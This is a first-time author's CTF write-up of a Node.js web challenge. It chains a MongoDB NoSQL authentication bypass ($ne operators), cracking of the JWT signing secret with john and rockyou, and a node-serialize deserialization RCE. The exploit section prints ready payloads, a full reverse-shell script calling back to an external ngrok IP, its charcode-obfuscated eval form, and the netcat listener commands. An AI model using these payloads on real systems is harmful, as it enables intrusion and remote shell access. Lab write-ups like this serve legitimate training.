








# Description

Hello and welcome everyone to my WriteUp for the "Breakfast with Grandma" Challenge By the author `@j3x` for the event PWN TILL S'HOUR for this year Held By The Club of @Shellmates
I'd just to point out that this is my first ever doing a WriteUp for a CTF challenge so if it is too long or something like that I apologize from now since I'm trying not only to write The Solution but as well as the thinking procedure that lead us to the Flag, So let's Go : 

### NoSQL injection
1. We Are Faced with a login page as shown in the Following image : 

After following around a bit with the debugger and Burp Suite we can see that the response that contains the credentials inputted in the form is returned through JSON Format (here i said it's definitely a NoSQL Injection since they are who use JSON, i did some testing to confirm is was node with Mongo in burp like this : )

### So what is a `NoSQL` injection?

NoSQL injection is a security weakness in a web application that uses a NoSQL database, can allow attackers to bypass authentication, exfiltrate sensitive data, tamper with data on the database, or even compromise the database and the underlying server Most NoSQL injection vulnerabilities occur because developers accept and process user inputs without properly sanitizing them

### We go back to our challenge

First i tried with admin credits Injection like this : 
`{"username":"admin","password":{"$ne": "x"}}`
Work then i changes it to this and we have a successful login (ofc we use Burp to send the request , u can also use ZAP or cURL but this is more simple ): 
`{"username":{"$ne": "x"},"password":{"$ne": "x"}}`

 

Once Logged In we don't have much to See and since the description Talked about cookies then it's probably a good idea to check them in the Storage Tab using developper tools (CTRL SHIFT C , or just right click and select it ) 
We then find a JWT Token let's decrypt it using JWT.io : We Find an used ID , iat (expiration time or smth lmao ) and an also an encodedData which contains a Base64 Coded Text : 
`
{
  "userId": "********************",
  "encodedData": "eyJ1c2VybmFtZSI6ImJvYmJ5IiwiYWdlIjo0LCJmYXZvdXJpdGVNZWFsIjoiQ2VyZWFscyIsIl8ybmRGYXZNZWFsIjoiQ29va2llcyJ9",
  "iat": 1712537034
}
`
decode it using base64 -d command in terminal (or just use a tool like CyberChef ) we find it's the same data showed in the dashboard 
`{"username":"bobby","age":4,"favouriteMeal":"Cereals","_2ndFavMeal":"Cookies"}`

for more informations about NoSQL injection check [this link](https://book.hacktricks.xyz/pentesting-web/nosql-injection)

### JWT signatur bruteforcing
Let's Find the JWT Signature password using our friend john (a tool to brute force passwords ) like this : 
john token.txt -w=/usr/share/wordlists/rockyou.txt (make sure to put ur JWT token in the txt file correctly: no spaces or anything else cause it may cause problems and not be found ) 
"""
$ john token.txt -w=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (HMAC-SHA256 [password is key, SHA256 256/256 AVX2 8x])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
shellmatexx      (?)     
1g 0:00:00:01 DONE (2024-04-08 01:52) 0.8928g/s 3408Kp/s 3408Kc/s 3408KC/s shikoni..sheenyboy1
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
"""

The password is found : `shellmatexx`, this is gonna allow us to change the jwt as we which (only the base64 part, since the other ones are used for the session)

here we are bit stuck ig? let's take a look at the source code, after some good search we find a serialization/deserialization code, let's ask ChatGPT if it's vulnerable to RCE (Remote Code Execution ) , The answer Is YES 
Now we look for ready to use exploits for this case : i first found one which is the most commun/basic one let's test it : 
Source : https://www.exploit-db.com/exploits/45265
var serialize = require('node-serialize');
var payload = '{"rce":"_$$ND_FUNC$$_function (){require(\'child_process\').exec(\'ls /\', function(error, stdout, stderr) { console.log(stdout) });}()"}';
serialize.unserialize(payload);
 let's take the rce field and place it in our JSON format in place of one of the fields and the encode this : 
 

{"username":"bobby","age":4,"favouriteMeal":"_$$ND_FUNC$$_function (){require(\'child_process\').exec(\'ls /\', function(error, stdout, stderr) { console.log(stdout) });}()","_2ndFavMeal":"Cookies"}

BAse64 : 
eyJ1c2VybmFtZSI6ImJvYmJ5IiwiYWdlIjo0LCJmYXZvdXJpdGVNZWFsIjoiXyQkTkRfRlVOQyQkX2Z1bmN0aW9uICgpe3JlcXVpcmUoXCdjaGlsZF9wcm9jZXNzXCcpLmV4ZWMoXCdscyAvXCcsIGZ1bmN0aW9uKGVycm9yLCBzdGRvdXQsIHN0ZGVycikgeyBjb25zb2xlLmxvZyhzdGRvdXQpIH0pO30oKSIsIl8ybmRGYXZNZWFsIjoiQ29va2llcyJ9Cg==

and send it in out JWT token bu using Cyber Chef to encode it (dont forget the secret word )

This didnt work :

lets look for something else, after some digging up this article looked intresting as it had some resemblance to our challenge :
https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/

This Used some advance a bit technique to achieve Reverse Shell Using Eval 
{"rce":"_$$ND_FUNC$$_function (){ eval(String.fromCharCode(10,118,97,114,32,110,101,116,32,61,32,114,101,113,117,105,114,101,40,39,110,101,116,39,41,59,10,118,97,114,32,115,112,97,119,110,32,61,32,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,115,112,97,119,110,59,10,72,79,83,84,61,34,49,50,55,46,48,46,48,46,49,34,59,10,80,79,82,84,61,34,49,51,51,55,34,59,10,84,73,77,69,79,85,84,61,34,53,48,48,48,34,59,10,105,102,32,40,116,121,112,101,111,102,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,61,61,32,39,117,110,100,101,102,105,110,101,100,39,41,32,123,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,32,102,117,110,99,116,105,111,110,40,105,116,41,32,123,32,114,101,116,117,114,110,32,116,104,105,115,46,105,110,100,101,120,79,102,40,105,116,41,32,33,61,32,45,49,59,32,125,59,32,125,10,102,117,110,99,116,105,111,110,32,99,40,72,79,83,84,44,80,79,82,84,41,32,123,10,32,32,32,32,118,97,114,32,99,108,105,101,110,116,32,61,32,110,101,119,32,110,101,116,46,83,111,99,107,101,116,40,41,59,10,32,32,32,32,99,108,105,101,110,116,46,99,111,110,110,101,99,116,40,80,79,82,84,44,32,72,79,83,84,44,32,102,117,110,99,116,105,111,110,40,41,32,123,10,32,32,32,32,32,32,32,32,118,97,114,32,115,104,32,61,32,115,112,97,119,110,40,39,47,98,105,110,47,115,104,39,44,91,93,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,119,114,105,116,101,40,34,67,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,112,105,112,101,40,115,104,46,115,116,100,105,110,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,111,117,116,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,101,114,114,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,111,110,40,39,101,120,105,116,39,44,102,117,110,99,116,105,111,110,40,99,111,100,101,44,115,105,103,110,97,108,41,123,10,32,32,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,101,110,100,40,34,68,105,115,99,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,125,41,59,10,32,32,32,32,125,41,59,10,32,32,32,32,99,108,105,101,110,116,46,111,110,40,39,101,114,114,111,114,39,44,32,102,117,110,99,116,105,111,110,40,101,41,32,123,10,32,32,32,32,32,32,32,32,115,101,116,84,105,109,101,111,117,116,40,99,40,72,79,83,84,44,80,79,82,84,41,44,32,84,73,77,69,79,85,84,41,59,10,32,32,32,32,125,41,59,10,125,10,99,40,72,79,83,84,44,80,79,82,84,41,59,10))}()"}

// CODE USED FOR THE REVERSE SHELL 

var net = require('net');
var spawn = require('child_process').spawn;
HOST="3.125.188.168"; // ngrok provided public IP ADD
PORT="14447";  // ngrok provided public PORT 
TIMEOUT="5000";
if (typeof String.prototype.contains === 'undefined') { String.prototype.contains = function(it) { return this.indexOf(it) != -1; }; }
function c(HOST,PORT) {
    var client = new net.Socket();
    client.connect(PORT, HOST, function() {
        var sh = spawn('/bin/sh',[]);
        client.write("Connected!\n");
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
        sh.on('exit',function(code,signal){
          client.end("Disconnected!\n");
        });
    });
    client.on('error', function(e) {
        setTimeout(c(HOST,PORT), TIMEOUT);
    });
}
c(HOST,PORT);

This what we are gonna do : 
1-Encode the past code to Decimal (with comma as a seperator ) then put it inside the eval
2-put the eval and rest of the code in out Data's JSON format 
3-Following that we encode The Data's JSON To base64 and 
4-And last but not least put that in the JWT Token
Change the IP and Port (Use Ngrok for a public one and then forward it to your terminal )
in terminal : Sudo ngrok tcp 4444
in another terminal window : nc -lvp 4444
(for more details check this article : https://drxh3kr.medium.com/using-netcat-with-ngrok-ip-for-receiving-reverse-shell-25ba7a498aab)
and voila we have Reverse Shell : 
look around a bit and we find the flag in the root directory (/) and there u have it 

CAPTURE SHELLL 

Note : This was an Amazing and creative challenge for me , GG to the Author 

